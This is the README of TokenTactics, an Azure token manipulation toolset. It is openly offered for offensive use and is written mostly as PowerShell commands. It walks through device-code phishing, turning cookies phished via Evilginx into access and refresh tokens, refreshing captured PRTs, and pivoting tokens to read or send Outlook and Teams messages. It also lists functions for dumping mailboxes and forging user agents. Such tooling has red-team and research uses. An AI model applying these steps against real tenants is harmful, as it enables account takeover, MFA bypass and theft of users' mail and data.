 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-AzureToken```

```Invoke-RefreshToSubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```

Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Get a Refresh Token from ESTSAuth* Cookie 

```Get-AzureTokenFromESTSCookie -estsAuthCookie "0.AbcApTk..." ```

This module uses authorization code flow to obtain an access token and refresh token using ESTSAuth (or ESTSAuthPersistent) cookie. Useful if you have phished a session via Evilginx or have otherwise obtained this cookie. 

Be sure to use the right cookie! `ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`. You can usually tell which one to use based on length, the longer cookie is the one you want to use :) 

*Note: This may not work in all cases as it may require user interaction. If this is the case, either use the Device Code flow above, or try `roadtx interactiveauth --estscookie`*

### Refresh or Switch Tokens

```Invoke-RefreshToOutlookToken -domain myclient.org -refreshToken 0.A```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Refresh a PRT

Once a PRT has been captured, auth with roadrecon to obtain your access_token and refresh_token. When refreshing with TokenTactics, use ClientID 1b730954-1685-4b74-9bfd-dac224a7b894.

```Invoke-RefreshToMSGraphToken -domain myclient.org -ClientId 1b730954-1685-4b74-9bfd-dac224a7b894 -refreshToken 0.A```

### Clear tokens
```Invoke-ClearToken -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Get-AzureToken                                     0.0.2      TokenTactics
Function        Get-AzureTokenFromESTSCookie                       0.0.2      TokenTactics
Function        Invoke-ClearToken                                  0.0.2      TokenTactics
Function        Invoke-DumpOWAMailboxViaMSGraphApi                 0.0.2      TokenTactics
Function        Invoke-ForgeUserAgent                              0.0.2      TokenTactics
Function        Invoke-OpenOWAMailboxInBrowser                     0.0.2      TokenTactics
Function        Invoke-ParseJWTtoken                               0.0.2      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken           0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken               0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                      0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken              0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToSharepointOnlineToken              0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                        0.0.2      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

